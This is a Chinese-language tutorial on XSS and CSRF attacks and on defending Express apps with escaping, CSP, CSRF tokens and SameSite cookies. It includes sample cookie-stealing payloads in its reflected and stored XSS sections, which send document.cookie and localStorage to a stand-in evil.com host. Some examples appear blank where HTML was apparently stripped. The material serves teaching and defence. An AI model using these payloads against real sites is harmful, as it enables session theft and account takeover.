

# XSS与CSRF防护

## 📚 核心概念

### XSS攻击（跨站脚本攻击）

**定义**：攻击者在网页中注入恶意JavaScript代码

**本质**：攻击**浏览器**，执行恶意代码

**危害**：
- 🔓 窃取Cookie、Session、Token
- 📋 窃取用户输入（密码、信用卡号）
- 🎭 冒充用户操作
- 🔄 重定向到钓鱼网站
- 💾 植入键盘记录器

---

### CSRF攻击（跨站请求伪造）

**定义**：攻击者伪造HTTP请求，利用浏览器自动发送Cookie

**本质**：攻击**服务器**，发送伪造请求

**危害**：
- 💸 转账、发红包
- 📝 发帖、发评论
- 🔄 修改密码、邮箱
- 🛒 购买商品
- 👥 添加好友、关注

---

## 🆚 XSS vs CSRF 核心区别

| 特性 | XSS | CSRF |
|------|-----|------|
| **攻击方式** | 注入JavaScript代码 | 伪造HTTP请求 |
| **攻击目标** | 浏览器（执行代码） | 服务器（发送请求） |
| **窃取内容** | Cookie、用户信息 | 直接操作 |
| **防护方式** | 转义输出、CSP | CSRF Token |
| **优先级** | ⚠️ **更危险**（可绕过CSRF） | ⚠️ 需要防护 |

**关键关联**：
```
⚠️ 如果有XSS漏洞，CSRF防护可能失效！

原因：
黑客通过XSS注入恶意代码 →
能在你的页面执行JavaScript →
能读取你的CSRF Token →
能发送带Token的伪造请求 →
CSRF防护被绕过！

结论：先防XSS（第一优先级），再防CSRF（双重保险）
```

---

## 💉 XSS攻击详解

### 三种类型

#### 1. 反射型XSS（最常见）

**特点**：恶意代码通过URL参数注入，服务器直接返回

**示例**：
```javascript
// 恶意URL
http://example.com/search?q=<script>alert('XSS')</script>

// 服务器直接返回
你搜索了：<script>alert('XSS')</script>

// 浏览器执行
弹出alert窗口
```

**危险场景**：
```javascript
// 窃取Cookie
http://example.com/search?q=<script>
  document.location='http://evil.com?cookie='+document.cookie
</script>

// 用户点击这个链接 → Cookie被发送到黑客服务器
```

---

#### 2. 存储型XSS（最危险）

**特点**：恶意代码存储在数据库，所有访问者都会执行

**示例**：
```javascript
// 黑客在评论区发布
<script>
  fetch('http://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      cookie: document.cookie,
      localStorage: JSON.stringify(localStorage)
    })
  });
</script>

// 服务器存储到数据库
// 所有访问这个页面的人都会执行这段代码
// 他们的Cookie全部被偷走！
```

---

#### 3. DOM型XSS

**特点**：前端JavaScript直接修改DOM，不经过服务器

**示例**：
```javascript
// 前端代码
const name = getParam('name');
element.innerHTML = 'Hello, ' + name;  // 危险！

// 恶意URL
http://example.com/page?name=

// 结果：img标签的onerror事件被触发
```

---

## 🛡️ XSS防护

### 方法1：输出转义（最有效）✅

**原理**：将特殊字符转换为HTML实体

```javascript
// 转义函数
function escapeHtml(unsafe) {
  return unsafe
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// 使用
const userInput = '<script>alert("XSS")</script>';
const safe = escapeHtml(userInput);
console.log(safe);
// &lt;script&gt;alert("XSS")&lt;/script&gt;（不会执行）
```

**Express示例**：
```javascript
// ❌ 危险：直接输出
app.get('/search', (req, res) => {
  const q = req.query.q;
  res.send('你搜索了：' + q);  // 危险！
});

// ✅ 安全：转义输出
app.get('/search', (req, res) => {
  const q = req.query.q;
  const safe = escapeHtml(q);
  res.send('你搜索了：' + safe);  // 安全！
});
```

---

### 方法2：使用模板引擎（自动转义）✅

**EJS模板**：
```ejs
<% code %>
<%= code %>  <!-- 自动转义 ✅ -->
<%- code %>  <!-- 不转义（危险！）❌ -->
```

**示例**：
```ejs
<!-- 自动转义 -->
<p><%= comment %></p>
<!-- 输入：<script>alert('XSS')</script> -->
<!-- 输出：&lt;script&gt;alert('XSS')&lt;/script&gt;（安全）✅ -->

<!-- 不转义（危险！） -->
<p><%- comment %></p>
<!-- 输入：<script>alert('XSS')</script> -->
<!-- 输出：<script>alert('XSS')</script>（执行！❌） -->
```

---

### 方法3：CSP（内容安全策略）✅

**作用**：限制脚本的来源，阻止内联脚本执行

**Express配置**：
```javascript
const helmet = require('helmet');

app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],  // 只允许加载同源资源
    scriptSrc: ["'self'", 'https://trusted.cdn.com'],  // 只允许从这些地方加载脚本
    styleSrc: ["'self'", "'unsafe-inline'"],  // 允许内联样式
    imgSrc: ["'self'", 'data:', 'https:'],
  }
}));
```

**实际效果**：
```javascript
// 有CSP保护
<script>alert('XSS')</script>  // ❌ 被阻止（CSP错误）
<script src="/script.js"></script>  // ✅ 允许（同源）

// CSP错误（你之前看到的）
// Executing inline script violates the following Content Security Policy directive
```

---

### 方法4：输入验证✅

**express-validator**：
```javascript
const { body, validationResult } = require('express-validator');

app.post('/api/comment', [
  body('comment')
    .trim()  // 去除空格
    .escape()  // 自动转义HTML标签
    .isLength({ max: 1000 })  // 限制长度
    .matches(/^[a-zA-Z0-9\s\u4e00-\u9fa5.,!?]+$/)  // 只允许中英文、数字、标点
], (req, res) => {
  const errors = validationResult(req);
  if (!errors.isEmpty()) {
    return res.status(400).json({ errors: errors.array() });
  }

  // 安全地保存评论
  const safeComment = req.body.comment;  // 已转义
  // ...保存到数据库
});
```

---

## 🎭 CSRF攻击详解

### 完整攻击流程

```
【正常流程】
你 → 登录银行 → 服务器返回Cookie（session_id=abc123）
  → 访问银行页面 → 浏览器自动发送Cookie → 银行识别你的身份

【CSRF攻击流程】
你 → 登录银行 → 浏览器存储Cookie
  → 访问恶意网站（evil.com）
  → evil.com的页面：
  → 浏览器自动带上银行的Cookie发送请求
  → 银行以为是你的操作 → 钱被转走！💸
```

**关键点**：
- 🎭 黑客不需要获取Cookie（浏览器自动发送）
- 🎯 利用的是"已登录状态"
- 📨 GET和POST都可以伪造

**实际例子**：
```html
<!-- 恶意网站 evil.com -->
<h1>恭喜你中奖了！</h1>

<!-- 浏览器尝试加载图片 → 自动发送GET请求 → 银行转账 -->
```

---

## 🛡️ CSRF防护

### 方法1：CSRF Token（最常用）✅

**原理**：服务器生成随机Token，前端必须携带Token才能通过验证

**流程**：


**Express配置**：
```javascript
const csrf = require('csurf');
const cookieParser = require('cookie-parser');

app.use(cookieParser());
const csrfProtection = csrf({ cookie: true });

// 1. 提供Token给前端
app.get('/api/csrf-token', csrfProtection, (req, res) => {
  res.json({ csrfToken: req.csrfToken() });
});

// 2. 前端请求时携带Token
app.post('/api/transfer', csrfProtection, (req, res) => {
  // 中间件自动验证CSRF Token
  // 如果Token不匹配，返回403错误
  res.json({ success: true });
});
```

**前端代码**：
```javascript
// 1. 获取Token
let csrfToken = '';
fetch('/api/csrf-token')
  .then(res => res.json())
  .then(data => {
    csrfToken = data.csrfToken;
  });

// 2. 发送请求时携带Token
fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRF-Token': csrfToken  // 关键！
  },
  body: JSON.stringify({ to: 'user123', amount: 100 })
});
```

**为什么有效？**
- ✅ 同站请求：JavaScript**能读取**Cookie → 能发送Token
- ❌ 跨站请求：evil.com的JavaScript**无法读取**你的Cookie（跨域限制）→ 无法获取Token → 请求被拒绝

---

### 方法2：SameSite Cookie✅

**作用**：限制Cookie只在同站请求时发送

**Express配置**：
```javascript
app.use(session({
  cookie: {
    sameSite: 'strict'  // 只允许同站请求携带Cookie
  }
}));

// 或
res.cookie('session_id', 'abc123', {
  sameSite: 'strict'  // 推荐
});
```

**三种模式**：
```javascript
sameSite: 'strict'   // 最严格（完全禁止跨站携带Cookie）
sameSite: 'lax'      // 推荐（顶级导航允许，如点击链接）
sameSite: 'none'     // 不限制（需要设置secure: true）
```

---

### 方法3：验证Referer头⚠️

**作用**：检查请求来源

```javascript
app.use((req, res, next) => {
  const referer = req.headers.referer;

  if (!referer || !referer.startsWith('https://my-website.com')) {
    return res.status(403).json({ error: 'Invalid referer' });
  }

  next();
});
```

**缺点**：
- ❌ Referer可能被篡改
- ❌ 某些浏览器不发送Referer
- ❌ 隐私问题

---

## 🧪 测试演示

### XSS测试

**测试1：反射型XSS**
```javascript
// 输入
<script>alert('XSS')</script>

// 不转义：❌ 弹窗（危险！）
// 转义：✅ 显示为文本（安全）
```

**测试2：存储型XSS**
```javascript
// 在评论区输入


// 不转义：❌ 图片加载失败 → 触发onerror → 弹窗
// 转义：✅ 显示为文本（安全）
```

---

### CSRF测试

**测试1：带Token请求（成功）✅**
```javascript
fetch('/api/transfer', {
  headers: {
    'X-CSRF-Token': csrfToken  // 携带Token
  }
});
// 结果：✅ 成功（Token验证通过）
```

**测试2：不带Token请求（失败）❌**
```javascript
fetch('/api/transfer', {
  // 没有X-CSRF-Token头
});
// 结果：❌ 失败（CSRF保护生效）
```

---

## ⚠️ 安全优先级

```
XSS防护 > CSRF防护

原因：
1. XSS可以绕过CSRF防护
2. XSS可以窃取更多数据（Cookie、localStorage、用户输入）
3. XSS危害更大（可以完全控制用户浏览器）
```

**防护策略**：
```javascript
1. ✅ 输入验证（express-validator）
2. ✅ 输出转义（escapeHtml）
3. ✅ CSP（helmet中间件）
4. ✅ CSRF Token（csurf中间件）
5. ✅ SameSite Cookie
6. ✅ HTTPS传输
```

---

## 🔗 知识点关联

- [[Cookie与Session]] - Cookie的安全设置
- [[CORS跨域]] - 跨域与CSRF的区别
- [[JWT在Express中的实现]] - Token的存储和传输
- [[数据验证]] - 输入验证的重要性

---

## 📝 总结

**XSS防护**：
- ✅ 输出转义（escapeHtml）
- ✅ 使用模板引擎自动转义
- ✅ CSP内容安全策略
- ✅ 输入验证

**CSRF防护**：
- ✅ CSRF Token（最常用）
- ✅ SameSite Cookie
- ✅ 验证Referer头

**优先级**：先防XSS，再防CSRF

**记住**：安全是多层防护，单一措施可能不够！
